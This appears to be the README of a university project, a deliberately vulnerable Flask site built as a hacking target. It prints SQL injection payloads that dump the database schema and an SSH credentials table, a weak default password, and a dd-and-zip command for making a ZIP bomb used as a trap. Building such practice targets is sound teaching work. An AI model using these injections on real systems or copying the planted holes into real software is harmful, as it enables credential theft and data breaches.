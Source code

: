 # Uni project: Llamas of the World

Llamas of the world (LotW) is an online service for searching countries with llamas. To access the search, one must first enter their credit card details. The search of LotW is vulnerable to SQL injections. 

The machine that hosts LotW also runs a SSH server. Passwords for the SSH connection are stored in the same database as the list of countries for the search. Credit card details are stored in a different database.

To hack this application, the hacker must use the SQL injection first to get their hand on the SSH credentials and then use those to steal the credit card details from the server.

As a trap, we stored a ZIP bomb or virus on the host machine, named 'credit-card-data.zip'.

Note: `server.py` has purposefully bad error handling.

![Screenshot of credit card screen](/mockups/Signup%20-%20desktop.jpg)


## Installation

Install the software:

```bash
# Clone git repository
git clone https://github.com/theoholl/llamas-of-the-world
cd llamas-of-the-world/

# Install NPM dependencies
npm i

# Set up and activate python virtual environment
python -m venv .venv
source .venv/bin/activate

# Upgrade pip and install requirements
python -m pip install --upgrade pip
python -m pip install -r requirements.txt
```

Optional: Initialize new databases. This is only neccessary if you want to purge the current database. You can do this anytime to erase all data from the databases and start fresh.

```bash
python init_db.py
```

## Development

Activate the Python virtual environment:

```bash
source .venv/bin/activate
```

Start development server:

```bash
# Only flask server (if you don't want to edit the HTML templates)
# npm run serve

# Flask server and CSS compiler
npm run dev
```

Now you can edit Python and HTML files without having to restart the server. You only need to refresh the browser. The website will served on [http://localhost:5000](http://localhost:5000).

## Test the application

The sign-in page requires the following inputs:

- Name of credit card holder
- Credit card number: any valid credit card number e.g. 6011000990139424
- CVV: any 3 digit number below 100, e.g. 042

Attack the search form with an SQL injection, e.g. by querying all tables in the database:

```sql
Llamaland' UNION SELECT type, name, name FROM sqlite_schema WHERE type = 'table' AND name NOT LIKE 'sqlite_%
```

Get SSH username and password:

```sql
Llamaland' UNION SELECT * FROM ssh_users --
```

**SSH user:**

- username: user
- password: pw


## Expose server to network

```bash
python -m flask --app server run --host=0.0.0.0
```

## Create a ZIP bomb

```bash
dd if=/dev/zero bs=1024 count=1000000 | zip credit-card-data -
```

`dd`: (data duplicator) copies files

`if`: input file; `/dev/zero` returns as many null characters as are read from it

`bs`: block size, how many byte are copied at a time

`count`: how many times to copy with given parameters, e.g. 1024 bytes * 1.000.000 = 1 GB when unpacked

`-`: file name of the packed file in the zip archive
